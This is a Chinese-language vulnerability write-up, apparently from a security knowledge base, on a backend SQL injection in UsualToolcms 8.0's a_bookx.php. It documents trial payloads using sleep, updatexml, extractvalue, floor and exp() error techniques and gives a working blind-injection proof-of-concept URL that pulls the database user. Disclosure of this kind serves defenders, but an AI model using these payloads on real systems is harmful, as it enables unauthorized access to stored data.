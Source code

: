 UsualToolcms 8.0 a\_bookx.php 后台注入漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

![1.png](./resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId24.png)

mysqli\_query不支持堆叠，无回显初步构造payload：

    t=move&id[0]=1',(select 1 and sleep(10)),'2

执行的SQL语句：

    UPDATE `cms_book` set catid='' WHERE id in('1',(select 1 and sleep(10)),'2')

能够正确执行的SQL语句：

    UPDATE `cms_book` set catid='' WHERE id in(1,(select 1 and sleep(10)))

因此初步设想以失败告终，\$result返回bool值，True显示咨询删除成功，false则显示咨询删除失败则可以if构造语句，语句判断语句为真则执行一条可执行的语句，假若为假执行一条报错语句即可使result为False的语句

updatexml，if条件真假与否都会报错

![2.png](./resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId25.png)

extractvalue，if条件真假与否都会报错

![3.png](./resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId26.png)

join报错:`select id from mysql.user a join mysql.user b ，result`返回结果均为true

![4.png](./resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId27.png)

floor报错：`SELECT COUNT(*) FROM user GROUP BY FLOOR(RAND(0)*2);`同样返回结果均为true

![5.png](./resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId28.png)

exp():
mysql\>=5.5.5会报错;mysql\>=5.5.53，报错不能注出数据，我这里为5.5.53，但是可以用于使语句返回结果为false

![6.png](./resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId29.png)

### POC：

    https://www.0-sec.org/demo/cmsadmin/a_bookx.php?t=move&id[0]=1%27)or%20if((substr((select%20user()),1,1))=%27d%27,(select%201),exp(~0));%23

![7.png](./resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
